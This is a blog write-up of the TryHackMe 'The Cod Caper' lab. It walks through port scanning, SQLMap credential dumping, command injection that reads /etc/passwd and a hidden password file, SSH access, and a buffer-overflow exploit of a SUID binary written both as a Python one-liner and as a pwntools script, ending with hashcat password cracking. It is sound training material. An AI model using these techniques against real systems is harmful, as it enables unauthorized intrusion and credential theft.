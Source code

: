```yaml
---
layout: post
title: "The Cod Caper"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [rustscan, gobuster, SQLMap, LinEnum, gdb, hashcat]
image: ../../assets/img/posts/thecodcaper.png 

---
```


## Description

A guided room taking you through infiltrating and exploiting a Linux system.

|**Room**|[The Cod Caper](https://tryhackme.com/room/thecodcaper)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Paradox](https://tryhackme.com/p/Paradox)|

---

Let's deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.83.110
```

![image](https://user-images.githubusercontent.com/67465230/187013182-5315aa81-088f-4944-afc3-c233eeb348a0.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p22,80 10.10.83.110 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187013196-118ff2dc-a096-46a0-9ade-4c6296796abe.png)

Scan results describes that port 22 is running ssh service and port 80 is running a webserver. Let's start enumerating port 80.

Visiting http://10.10.83.110,

![image](https://user-images.githubusercontent.com/67465230/187013244-4775e5a4-6e45-411c-875b-9a0d5ce76c9a.png)

we got a default apache server webpage. We can't find anything here. 

Let's brute force directories using gobuster,

```bash
gobuster dir -u http://10.10.83.110 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -o gobuster 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187013470-d9544a82-7aca-4ee9-9bbb-eacb23a4c1a2.png)

we got an administrator.php page.

Visiting http://10.10.83.110/administrator.php,

![image](https://user-images.githubusercontent.com/67465230/187013475-17642a63-691f-4dff-b8e6-5b4ce16fea09.png)

and we can see the login page. Since we don't have credentials, we can try to dump them using SQLMap.

```bash
sqlmap -u http://10.10.83.110/administrator.php --forms --dump
```

![image](https://user-images.githubusercontent.com/67465230/194691571-d77d2234-39f1-4ddd-bf53-57274835a889.png)

we got username and password. 

Let's try to login as administrator,

![image](https://user-images.githubusercontent.com/67465230/187013483-06f6c20a-1cd9-4bec-8b2d-80d0a7c30f18.png)

This is the box where we can run commands. **Command Injection**.

Listing directory content, `ls`

![image](https://user-images.githubusercontent.com/67465230/187013492-9e42fc16-cc04-4dc0-9261-5f8aae0fc91b.png)

we got some files. 

If we can run commands and server gives output back to us, then we can also read sensitive files. 

So I tried to read /etc/passwd file,

```bash
cat /etc/passwd
```

![image](https://user-images.githubusercontent.com/67465230/187013501-e03cd373-5f78-4580-8213-0e687fcfd7a4.png)

and there I got this user **pingu**. 

Now since we know the username, then why don't we attempt to find the password on whole system,

```bash
find / -name pass -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187013509-1347931c-7ab4-467e-bafe-c7f5ee128a3f.png)

our "pass" string resides in **/var/hidden/pass** file. 

Looking at the content of the /var/hidden/pass file,

![image](https://user-images.githubusercontent.com/67465230/194691795-04564ff4-8daa-4a56-90e2-f0ae7389627a.png)

We obtain the password.

Now, we can ssh into machine using credentials we obtain before,

```bash
ssh pingu@10.10.83.110
```

![image](https://user-images.githubusercontent.com/67465230/187013526-97fdaf34-ed0e-4c24-9307-0ac5fda8fab4.png)

and we got in. 

Now, since this machine don't have LinEnum script, I transferred by hosting the server, `python3 -m http.server` and then transfer file using `wget`.

Now that we got file, make it executable and running it,

```bash
chmod +x LinEnum.sh
/LinEnum.sh
```

after scrolling down to SUID section, I found that there is a file /ope/secret/root which has SUID bit set on it. This file is and executable.

Start the suid file with gdb,

```bash
gdb /opt/secret/root
```

![image](https://user-images.githubusercontent.com/67465230/187596056-4e338f89-4ac7-4fc0-b64d-7c89ab4f3e42.png)

The following command tells you exactly how many characters you need to provide in order to override the instruction pointer,

```bash
cyclic -l 0x6161616c
```

![image](https://user-images.githubusercontent.com/67465230/187013540-333d9f80-6143-4d27-b76e-9003d17bf20a.png)

Quit the gdb shell, and in the system use this command,

```bash
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)' | ./root
```

![image](https://user-images.githubusercontent.com/67465230/194691825-9fb5564a-6c9c-4438-9594-e04cc4154d4c.png)

We are printing 44 times the letter A to fill the buffer, and then we provide the string "\xcb\x84\x04\x08" which represents the shell function, therefore once the get_input() function ends instead of returning to the main() it will go to shell(). 

In this task we will achieve the same result but with pwntools.  
The main difference is that we get the shell() starting point from ‘elf.symbols.shell’.

```bash
from pwn import *  
proc = process('/opt/secret/root')  
elf = ELF('/opt/secret/root')  
shell_func = elf.symbols.shell  
payload = fit({  
44: shell_func # this adds the value of shell_func after 44 characters  
})  
proc.sendline(payload)  
proc.interactive()
```

Save the program into a .py file and run it.

![image](https://user-images.githubusercontent.com/67465230/194691880-93d7e942-38bc-4b77-be0a-2fb2b1a0551a.png)

Now, we can crack the hash with hashcat.

```bash
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt --force
```

![image](https://user-images.githubusercontent.com/67465230/194691868-8b78a82a-d00d-415e-b224-f3d9095430fe.png)

And there we have our root user hash.